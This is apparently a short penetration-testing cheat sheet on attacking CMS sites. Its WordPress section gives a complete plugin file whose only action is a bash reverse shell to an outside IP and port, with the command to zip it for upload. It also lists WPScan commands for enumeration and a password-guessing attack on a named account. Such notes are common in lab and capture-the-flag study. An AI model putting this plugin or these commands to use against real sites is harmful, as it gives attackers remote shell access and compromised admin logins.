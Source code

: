 # Misc Web Content Management Framework Security
[TOC]
###### tags: `Security` `CMS` `WordPress` `Joomla` `ContentManagementFramework`

# WordPress
## Reverse Shell
* WordPress Plugin
    * [WordPress Plugin : Reverse Shell](https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
    * `revsh-plugin.php`
    ```
    <?php

    /**
    * Plugin Name: Reverse Shell Plugin
    * Plugin URI:
    * Description: Reverse Shell Plugin
    * Version: 1.0
    * Author: Vince Matteo
    * Author URI: http://www.sevenlayers.com
    */

    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.12/7701 0>&1'");
    ?>
    ```
    `zip revsh-plugin.zip revsh-plugin.php`

## Tools
* login page: `http://example.tw/wp-login.php`
### WPScan
* API token
    * `--api-token XXX`
    * `~/.wpscan/scan.yml`
* Recon
    ```
    wpscan --url http://example.tw
    --enumerate [OPTS]
    ```
* Password Attack
    ```
    wpscan --url http://example.tw 
    --usernames "william.riker" 
    --passwords ./password_list
    ```

# Joomla
* login page: `http://example.tw/administrator/`